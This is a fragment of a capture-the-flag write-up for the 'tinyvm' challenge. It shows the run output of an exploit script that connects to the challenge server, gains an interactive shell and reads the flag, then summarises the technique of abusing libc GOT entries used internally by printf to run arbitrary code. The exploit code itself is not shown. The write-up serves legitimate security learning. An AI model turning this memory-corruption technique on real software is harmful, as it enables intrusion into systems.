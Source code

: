 ### Running the exploit

```c
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ ./solve.py REMOTE
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[*] Switching to interactive mode
 $ cat /flag
rwctf{A_S1gn_In_CHllenge}
```

## Summary

Overall, this was a nice challenge, and it wasn't hard. The main takeaway is that libc GOT can be used to call arbitrary code because `printf` function is using some of GOT entries internally. 

